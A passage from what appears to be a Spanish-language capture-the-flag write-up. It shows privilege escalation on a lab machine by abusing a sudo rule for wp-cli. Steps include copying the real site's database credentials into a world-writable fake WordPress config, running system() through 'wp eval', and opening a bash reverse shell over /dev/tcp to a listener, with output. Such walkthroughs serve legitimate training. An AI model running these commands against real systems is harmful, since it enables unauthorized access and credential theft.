 ```shell
cp /tmp/fakewp/wp-config-sample.php /tmp/fakewp/wp-config.php
```

Esto esta claro que estara vacio a nivel de credenciales, no podra realizar la conexion real a la `DDBB`, ya que si intentamos esto:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/tmp/fakewp eval 'system("id");'
```

Nos va a dar un error de que no consigue acceder a la `DDBB` mediante el archivo de configuracion de `wordpress`, pero antes de realizar lo siguiente le daremos permisos para que podamos hacer despues una cosa.

```shell
chmod 777 /tmp/fakewp/wp-config.php
```

Ahora con estos permisos vamos a ir a la otra terminal con la que tenemos el usuario `www-data` y vamos a realizar lo siguiente:

```shell
cd /var/www/bicho.dl
cat wp-config.php > /tmp/fakewp/wp-config.php
```

Echo esto lo que estaremos haciendo sera pasar la configuracion de la `DDBB` a la de nuestro `wordpress` falso, por lo que si nos vamos a la otra terminal y ejecutamos el siguiente comando, si podra establecer una conexion con la `DDBB` y podremos ejecutar comandos como el usuario `wpuser`:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/tmp/fakewp eval 'system("id");'
```

Info:

```
PHP Warning:  Constant WP_DEBUG already defined in phar:///usr/local/bin/wp/vendor/wp-cli/wp-cli/php/WP_CLI/Runner.php(1335) : eval()'d code on line 85
uid=1002(wpuser) gid=1002(wpuser) groups=1002(wpuser),100(users)
```

Veremos que ha funcionado, por lo que vamos a ejecutarnos una `reverse shell` de la siguiente forma:

```shell
sudo -u wpuser /usr/local/bin/wp --path=/tmp/fakewp eval 'system("bash -c \"bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\"");'
```

Antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si ejecutamos el comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 6666 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 51674
wpuser@de41e2e0eb7b:/tmp/fakewp$ whoami
whoami
wpuser
```
